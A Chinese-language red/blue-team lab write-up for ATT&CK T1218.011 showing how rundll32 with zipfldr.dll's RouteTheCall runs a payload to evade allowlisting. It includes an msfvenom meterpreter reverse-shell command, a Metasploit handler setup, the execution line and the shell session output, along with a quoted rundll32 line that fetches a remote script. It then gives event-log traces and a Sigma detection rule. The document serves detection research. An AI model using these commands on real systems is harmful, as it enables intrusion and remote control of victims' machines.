 # T1218-011-win-使用Zipfldr.dll执行Payload（白名单）

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件，同样该工具支持WinXP-Win10 全版本，zipfldr.dll所在路径已被系统添加PATH环境变量中，因此zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

 Windows 2003 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

Windows 7 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.dll

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\x0b' LHOST=192.168.126.146 LPORT=4444 -f exe > shell.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set AutoRunScript migrate f
AutoRunScript => migrate f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
rundll32.exe zipfldr.dll,RouteTheCall .\shell.exe #shell.exe存放路径下执行
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 6 opened (192.168.126.146:4444 -> 192.168.126.156:49176) at 2020-04-13 10:54:22 +0800
[*] Session ID 6 (192.168.126.146:4444 -> 192.168.126.156:49176) processing AutoRunScript 'migrate f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]

meterpreter > getuid
Server username: WIN-IFPMACUK8BT\Administrator

```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
进程信息: #4688-1
新进程 ID:0x918
新进程名称:C:\Windows\System32\rundll32.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x948
进程命令行:rundll32.exe  zipfldr.dll,RouteTheCall .\shell.exe

进程信息: #4688-2
新进程 ID:0x94c
新进程名称:C:\Users\Administrator\Desktop\a\shell.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x918
进程命令行:"C:\Users\Administrator\Desktop\a\shell.exe"
```

## 检测规则/思路

### sigma规则

```yml
title: 可疑Rundll32活动
description: 基于参数检测与rundll32相关的可疑进程
status: experimental
references:
    - http://www.hexacorn.com/blog/2017/05/01/running-programs-via-proxy-jumping-on-a-edr-bypass-trampoline/
    - https://twitter.com/Hexacorn/status/885258886428725250
    - https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1085
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '*\rundll32.exe* url.dll,*OpenURL *'
            - '*\rundll32.exe* url.dll,*OpenURLA *'
            - '*\rundll32.exe* url.dll,*FileProtocolHandler *'
            - '*\rundll32.exe* zipfldr.dll,*RouteTheCall *'
            - '*\rundll32.exe* Shell32.dll,*Control_RunDLL *'
            - '*\rundll32.exe javascript:*'
            - '* url.dll,*OpenURL *'
            - '* url.dll,*OpenURLA *'
            - '* url.dll,*FileProtocolHandler *'
            - '* zipfldr.dll,*RouteTheCall *'
            - '* Shell32.dll,*Control_RunDLL *'
            - '* javascript:*'
            - '*.RegisterXLL*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: medium
```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1085

<https://attack.mitre.org/techniques/T1085/>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
